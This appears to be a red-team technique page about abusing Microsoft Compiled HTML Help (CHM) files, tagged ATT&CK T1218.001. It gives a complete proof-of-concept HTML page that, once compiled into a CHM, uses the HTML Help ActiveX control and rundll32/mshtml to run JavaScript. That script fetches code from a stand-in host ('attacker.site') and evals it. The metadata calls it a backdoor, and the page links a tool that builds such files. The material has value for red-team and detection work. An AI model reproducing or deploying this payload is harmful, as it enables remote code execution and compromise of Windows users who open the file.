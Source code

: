 # CHM files with JS
Microsoft Compiled HTML Help (CHM) is a Microsoft online help format, consisting of a collection of HTML pages and navigation tools, compressed in a binary format with the extension CHM. When programmically downloaded CHM files do not have to be "unblocked" to be executed.

[blogpost](https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/)

HTML file which needs to be added to the CHM file
```html
<!DOCTYPE html><html><head><title>Click Me</title><head></head><body>
PoC ! <br>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap::shortcut">
<PARAM name="Item1" value=',rundll32.exe,javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://attacker.site/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}'>
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

The CHM files can be automatically create via [creating Compiled HTML Help file](https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1)


## Tools
########
########

```meta
ttp: T1218.001
internal: false
requirements:
results: user, admin
description: CHM file containing a custom JavaScript backdoor
```